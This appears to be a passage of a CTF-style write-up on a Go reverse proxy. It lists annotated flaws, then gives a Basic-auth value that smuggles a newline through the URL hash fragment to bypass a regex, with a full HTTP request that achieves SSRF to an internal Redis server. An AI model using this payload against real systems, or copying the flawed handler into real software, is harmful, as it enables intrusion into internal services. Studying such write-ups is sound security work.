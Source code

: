 ```go
	if err != nil {
		http.Error(w, "bad gateway", http.StatusBadGateway)
		return
	}

	for k, vs := range req.Header {
		if k == "Host" || k == proxiedHeader {
			continue
		}
		newReq.Header.Add(k, vs[0])
	}

	newReq.Header.Add(proxiedHeader, "true")
	client := &http.Client{
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
			return http.ErrUseLastResponse
		},
	}

	res, err := client.Do(newReq) <5>
	...
}
```
<1> Authentication is done by reading a key from the Redis server and comparing the values.

<2> Can bypass the regex `ReplaceAllString` by inserting a `\n` in either the opaque or URI section.

<3> Missing URL encoding when building the basic authentication section for the URL.

<4> Missing `return` to stop the processing of the request.

<5> Blind SSRF here, despite missing authentication.

However, the golang `net/url` module performs validation checks for unescaped control characters in a URL, **except for the hash fragment**.
This can be abused by injecting a hash fragment in the `Authorization: Basic` header section that contains a `\n` to break the regex pattern match, and then SSRF to the Redis instance, with an example decoded basic auth header and request shown below.

```go
"mr:fatmonke@127.0.0.1:6379/#\n"
```

```http
GET /test HTTP/1.1
Host: 127.0.0.1:1337
Authorization: Basic bXI6ZmF0bW9ua2VAMTI3LjAuMC4xOjYzNzkvIwo=
User-Agent: curl/7.81.0
Accept: */*
Connection: keep-alive


```
